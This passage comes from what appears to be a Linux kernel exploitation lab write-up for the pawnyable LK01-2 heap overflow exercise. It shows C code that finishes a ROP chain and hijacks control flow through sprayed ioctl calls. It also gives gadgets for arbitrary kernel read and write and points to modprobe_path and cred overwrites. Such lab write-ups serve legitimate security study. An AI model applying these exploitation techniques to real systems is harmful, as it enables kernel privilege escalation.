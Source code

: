 ```c
    rop[idx++] = 0x0;
    rop[idx++] = user_rip;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_rsp;
    rop[idx++] = user_ss;

    buf[0x418 / 8] = g_buf;
    write(fd, buf, 0x420);

    // Hijack control flow
    logInfo("Triggering exploit...");
    for (int i = 0; i < SPRAY_NUM; i++)
    {
        int ret = ioctl(_spray[i], 0xdeadbeef, g_buf - 0x10); // subtract 0x10 for pop r13; pop rbp;
        // logInfo("ioctl[%d] = %d", i, ret);
    }

}
```

You can double check your payload by using `0xffffffffdeadbeef` in the first 8 bytes of `buf`, then you can see the RIP is `0xffffffffdeadbeef` in the crash message.

You can also see my exploit code [here](./exp/exploit.c)

## AAW/AAR Exploit

As we can see before

```c
ioctl(spray[i], 0xdeadbeef, 0xcafebabe);

RCX: 00000000deadbeef
RDX: 00000000cafebabe
RSI: 00000000deadbeef
R08: 00000000cafebabe
R12: 00000000deadbeef
R14: 00000000cafebabe
```

We can control `RCX`, `RDX`, `RSI`, `R8`, `R12`, `R14` registers. So if we can find some gadgets that can use these registers, we can achieve AAW/AAR. For example, we can use the following gadgets:

```c
0xffffffff810477f7: mov [rdx], rcx; ret;
0xffffffff8118a285: mov eax, [rdx]; ret;
```

There are 2 more sections in the [LK01-2](https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html) article that explain how to achieve AAW/AAR using these gadgets, leverage modprobe_path and core_pattern and CRED Structure. So I won't repeat it here.
You can see all my exploit code [here](./exp/)
